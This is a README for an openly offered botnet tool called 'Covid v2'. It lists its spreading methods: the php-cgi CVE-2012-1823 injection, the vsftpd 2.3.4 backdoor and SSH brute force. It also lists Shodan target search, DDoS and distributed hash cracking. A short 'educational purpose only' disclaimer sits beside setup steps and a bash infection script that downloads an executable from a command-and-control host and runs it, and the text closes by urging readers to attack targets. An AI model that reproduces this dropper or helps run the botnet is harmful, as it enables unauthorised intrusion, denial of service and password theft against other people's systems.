 # Covid v2 Botnet

***Disclamer: this botnet is for educational purpose only!***

**What can it do?**
- attack targets by a list
- attack targets on local network with a scanner
- spread through CVE-2012-1823 (php-cgi Argument Injection)
- spread through CVE-2011-2523 (vsftpd 2.3.4 backdoor)
- spread through SSH Brute Force
- search targets on shodan
- ddos spesific target (basic one with stop option)
- recognize a given hash and crack it using a word list
- save bots and targets lists into json file

![Botnet Help Command](gifs/1B477A4D-9C7F-4173-8911-4CBA80492C54.GIF)

**How to use?**

1. download the project

2. configure the cnc_ip on client.py and server.py

3. add shodan api token

4. create an installation file to make the target get infected and configure it on server.py and client.py
for example:

use a python compiler to compile client.py
create the bash script that downloads the compiled file and runs it:
```
#!/bin/bash
cnc_ip="your cnc"
executable="created executable with python compiler"
wordlist="your configured wordlist location"
wget http://$cnc_ip/$executable
wget http://$cnc_ip/$wordlist
chmod 777 $executable
./$executable
```
configure the bash file name under executable in server.py and client.py

5. run the server.py and attack your targets!

**Attack example:**

the attack is used on 3 local ips:
 
- 192.168.10.16 - Vunerable to CVE-2012-1823

- 192.168.10.18 - Vunerable to CVE-2011-2523

- 192.168.10.18 - Vunerable to SSH Brute Force

![Botnet Attack Example](gifs/3B4C1644-0690-4EAF-AA87-D2BB0C56800E.GIF)

**Hash cracking example**

the cracking is used on 3 infected bots and tries to crack md5 hash of "admin"

![Botnet Crack Hash Example](gifs/2518F02C-C205-4B92-A478-F97B7573475E.GIF)